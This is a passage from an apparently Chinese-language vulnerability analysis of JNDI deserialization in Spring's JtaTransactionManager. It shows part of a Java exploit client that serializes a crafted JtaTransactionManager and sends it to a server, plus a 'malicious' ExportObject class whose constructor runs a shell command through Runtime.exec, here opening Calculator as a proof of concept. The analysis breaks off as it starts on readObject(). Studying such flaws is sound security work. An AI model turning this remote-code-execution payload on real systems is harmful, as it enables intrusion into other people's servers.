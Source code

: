 ```java
            org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
            object.setUserTransactionName(jndiAddress);
            //发送payload
            System.out.println("Sending object to server...");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(socket.getOutputStream());
            objectOutputStream.writeObject(object);
            objectOutputStream.flush();
            while(true) {
                Thread.sleep(1000);
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```

以上代码，启动一个http服务，创建RMI registry，其中用到了`ExportObject`。

然后在某个端口创建socket，创建`JtaTransactionManager`类的实例object，再调用其`setUserTransactionName`方法。之后将object序列化发送到服务端。

**ExportObject.java**

```java
public class ExportObject {
   public static String exec(String cmd) throws Exception {
      String sb = "";
      BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
      BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
      String lineStr;
      while ((lineStr = inBr.readLine()) != null)
         sb += lineStr + "\n";
      inBr.close();
      in.close();
      return sb;
   }
   public ExportObject() throws Exception {
      String cmd="open /Applications/Calculator.app/";
      throw new Exception(exec(cmd));
   }
}
```

我们自己构造的一个可导出的恶意类。

**Spring框架中的JNDI反序列化漏洞**

问题点当然在于`readObject()`方法，我们来跟进一下。

*(有问题的类是`org.springframework.transaction.jta.JtaTransactionManager`*
